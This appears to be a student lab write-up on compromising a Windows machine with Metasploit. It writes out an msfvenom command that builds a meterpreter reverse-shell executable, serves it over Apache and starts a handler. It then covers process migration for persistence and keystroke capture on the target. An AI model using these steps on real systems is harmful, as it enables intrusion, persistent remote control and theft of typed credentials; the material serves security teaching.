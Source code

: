 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/user-attachments/assets/6305f05a-7760-46cc-86e0-a02b10489d73)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/user-attachments/assets/e6878cd8-282f-46db-89e8-36944721bad7)

copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![image](https://github.com/user-attachments/assets/116de4cc-d9ba-4b5a-99ec-da62e7705f77)

Start apache server sudo systemctl apache2 start

## OUTPUT:
![image](https://github.com/user-attachments/assets/a19784f1-a936-4564-905b-696a26f92904)

Check the status of apache2

## OUTPUT:

![image](https://github.com/user-attachments/assets/31b20403-1a34-422e-9c8b-204521d0ab2d)

Invoke msfconsole:
## OUTPUT:
![image](https://github.com/user-attachments/assets/1723f84a-9593-4820-9684-60a7730b0bf4)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT:
![image](https://github.com/user-attachments/assets/c5ae6ff7-f89b-4384-a542-57cb1d59c4df)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

## OUTPUT:
![image](https://github.com/user-attachments/assets/a01cffbc-6ec1-4eaa-8c7d-dcc54cf499bf)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

## OUTPUT:
![image](https://github.com/user-attachments/assets/e4ad8749-3d43-489d-a527-1acc52ce46e6)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/user-attachments/assets/f45d4aa4-c18c-4876-9e52-b32c9be161b4)

On kali give the command exploit

## OUTPUT:

![image](https://github.com/user-attachments/assets/bfcdcfa2-78d6-49ab-bce5-1ac2ef6051c7)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

## OUTPUT:

![image](https://github.com/user-attachments/assets/e61c6efb-19f6-4dfd-bc69-03d7fb96eeb5)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacteD

## OUTPUT:

![image](https://github.com/user-attachments/assets/1f093b33-938d-47bb-b66e-fac51a36aa8c)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


## OUTPUT:
![image](https://github.com/user-attachments/assets/8c395ebf-ff86-4fe0-98ae-9aa86832f14a)


![image](https://github.com/user-attachments/assets/cd1f040f-2f9b-4180-8f52-b78f1b7d1ca2)

keyscan_dump Shows the keystrokes captured so far

## OUTPUT:
![image](https://github.com/user-attachments/assets/8ba5ca15-62d5-4197-a237-428042056b97)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
